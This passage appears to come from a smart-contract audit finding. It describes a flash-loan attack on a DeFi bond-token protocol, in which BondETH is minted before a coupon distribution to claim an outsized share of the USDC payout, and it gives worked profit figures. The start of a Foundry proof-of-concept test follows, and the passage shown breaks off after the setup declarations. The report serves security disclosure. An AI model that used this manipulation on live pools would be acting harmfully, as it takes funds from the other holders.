 According to the above pool rate, we took a loan 50 ether and go through the above attack path. At the price of `$3125/ETH` able to mint `1562.5 ether Bond` (1562500000000000000000). So the total supply of BondETH went up around `4062.5 ether` (4062500000000000000000).

According to the supply and `sharePerToken` of `2.5 Per BondETH` the total copon is around required `10156.25 ether`. From that total supply we manage to take the profit of `3906.25 ether USDC` (3906250000000000000000).

```solidity
  1562500000000000000000      3906250000000000000000
  ----------------------- ==  ----------------------
  4062500000000000000000      10156.25 ether           total coupon = 4062.5 * 2.5 = 10156.25
```
- As explained above we can also take flash loan of BondETH directly. Profit would be (Claimed Amount - Flash loan fees)

**This is mere an example, a number can easily go up with real time calculation based on pool.**

### PoC

We are mocking Auction Procedure. 

For initial pool value Healthy rate is considered which used in `script/TestnetScript.s.sol`.
```solidity
  // SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.26;

import "forge-std/Test.sol";

import {Pool} from "../src/Pool.sol";
import {Token} from "./mocks/Token.sol";
import {Auction} from "../src/Auction.sol";
import {Utils} from "../src/lib/Utils.sol";
import {MockPool} from "./mocks/MockPool.sol";
import {BondToken} from "../src/BondToken.sol";
import {TestCases} from "./data/TestCases.sol";
import {Decimals} from "../src/lib/Decimals.sol";
import {PoolFactory} from "../src/PoolFactory.sol";
import {Distributor} from "../src/Distributor.sol";
import {OracleFeeds} from "../src/OracleFeeds.sol";
import {Validator} from "../src/utils/Validator.sol";
import {OracleReader} from "../src/OracleReader.sol";
import {LeverageToken} from "../src/LeverageToken.sol";
import {MockPriceFeed} from "./mocks/MockPriceFeed.sol";
import {Deployer} from "../src/utils/Deployer.sol";
import {Strings} from "@openzeppelin/contracts/utils/Strings.sol";
import {UpgradeableBeacon} from "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";
import {console} from "forge-std/console.sol";

contract TokenManipulation is Test, TestCases {
  using Decimals for uint256;
  using Strings for uint256;

  PoolFactory private poolFactory;
  PoolFactory.PoolParams private params;
  BondToken public bond;
    LeverageToken public lev;
    Pool public pool; 
    Token rToken;

  MockPriceFeed private mockPriceFeed;
  address private oracleFeedsContract;

  address private deployer = address(0x1);
  address private minter = address(0x2);
  address private governance = address(0x3);
```